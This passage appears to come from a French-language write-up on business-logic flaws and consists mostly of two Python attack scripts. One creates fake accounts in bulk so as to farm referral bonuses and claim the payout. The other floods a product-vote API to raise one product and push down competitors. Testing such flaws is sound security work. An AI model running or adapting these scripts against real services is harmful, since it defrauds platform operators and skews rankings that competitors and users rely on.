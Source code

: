 ### Scénario 3 : Exploitation du système de parrainage
```python
import random
import string

def generate_fake_email():
    """Génère un email aléatoire"""
    domain = "@tempmail.com"
    username = ''.join(random.choices(string.ascii_lowercase + string.digits, k=10))
    return username + domain

def exploit_referral_system(base_url, referrer_email, count=100):
    """Crée massivement des comptes pour les bonus"""
    total_bonus = 0
    
    for i in range(count):
        fake_email = generate_fake_email()
        
        response = requests.post(
            f"{base_url}/api/business/referral/register",
            json={
                "referrerEmail": referrer_email,
                "newUserEmail": fake_email
            }
        )
        
        if response.status_code == 200:
            total_bonus += 10  # $10 par parrainage
            print(f"Compte créé: {fake_email}, Bonus total: ${total_bonus}")
    
    # Réclamer le bonus
    claim_response = requests.post(
        f"{base_url}/api/business/referral/claim-bonus",
        json={"userEmail": referrer_email}
    )
    
    print(f"Bonus réclamé: {claim_response.json()}")
```

### Scénario 4 : Manipulation de votes
```python
def manipulate_product_ranking(base_url, product_id, votes=1000):
    """Manipule le classement d'un produit"""
    
    # Voter positivement pour notre produit
    for i in range(votes):
        requests.post(
            f"{base_url}/api/business/vote/product",
            json={"productId": product_id, "voteValue": 1}
        )
    
    # Voter négativement pour les concurrents
    competitor_ids = [2, 3, 4, 5]
    for comp_id in competitor_ids:
        for i in range(votes // 2):
            requests.post(
                f"{base_url}/api/business/vote/product",
                json={"productId": comp_id, "voteValue": -1}
            )
```
